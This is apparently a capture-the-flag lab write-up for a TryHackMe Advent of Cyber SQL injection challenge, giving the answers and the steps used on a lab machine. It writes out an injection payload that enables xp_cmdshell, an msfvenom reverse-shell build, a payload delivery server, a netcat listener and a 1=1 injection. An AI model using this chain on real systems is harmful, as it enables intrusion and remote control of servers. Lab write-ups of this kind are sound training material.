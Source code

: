 # Advent of Cyber

Day 10 - SQL Injection

----------------------------------

- Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?
	- `/giftsearch.php`

- Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
	- `ODBC Driver 17 for SQL Server`

- Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
	- `THM`

- What flag is in the note file Gr33dstr left behind on the system?
	- `THM`

- What is the flag you receive on the homepage after restoring the website?
	- `THM`


<details>
Steps:

1. 

----------------------------------------------------------------
2. Just by putting a ' apostrophe in the age paramater we can now cause errors and review the ODBC driver

```
age='
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14915c0b-d13a-4b1e-8589-0fa75722b507)


 ----------------------------------
First we need to enable the xp_cmdshell in the SQL server
	
```
http://10.10.82.81/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/a28b6e6c-69ec-4473-bcd3-1ff56c14dd38)


We need to create a reverse shell to the victim machine

We will use the msfvenom to create the exe file

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d26ab8ab-8ded-44ae-842e-1d92b50277af)

Then we will open our python server to port 8000

```
python3 -m http.server 8000
```

Then we will put this reverse shell into the victim machine using the xp_cmdshell command 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/49693447-2836-46b7-879f-dd781b2ac6ab)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/7ef21343-bd57-48f0-b382-85103c5d6fba)

After that we will now use NC to listen to the port that we specified

```
nc -lvnp 4444
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/40f6d77c-7d22-4643-ba3c-e4f976c2d4ac)

Then we need to execute the exe file in the victim side. Just by typing in the URL

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14f82251-691c-42e0-bf2c-26538034d7cc)

After that we will get the command line to the victim's machine now we have root access to their machine....

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d17408d8-c8c0-49f8-912f-a65033220c20)






As you can see we now restore the website using the bat file

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f6ac1f9c-00d3-435f-8ccc-13ce197f6b6c)


------------------------------------------------------
3. If we will put ' or 1=1 -- in the URL parameter we can return all of the content in the database. Along side with the THM flag.

 ![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f4e75f6b-0079-4ad9-8e1f-b2dcfca64476)

------------------------------------------------------
4. Just by a few navigations we can now see the files in the Users Desktop

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/6173ee70-32e5-407c-a3cb-d83a8607432a)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/488968cb-677a-4745-9a4b-0e4973a45164)

-----------------------------------------------------

5. Visit the /index.php we have a flag 

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/71c0eff7-ac59-4da6-9122-220854f775fd)

</details>
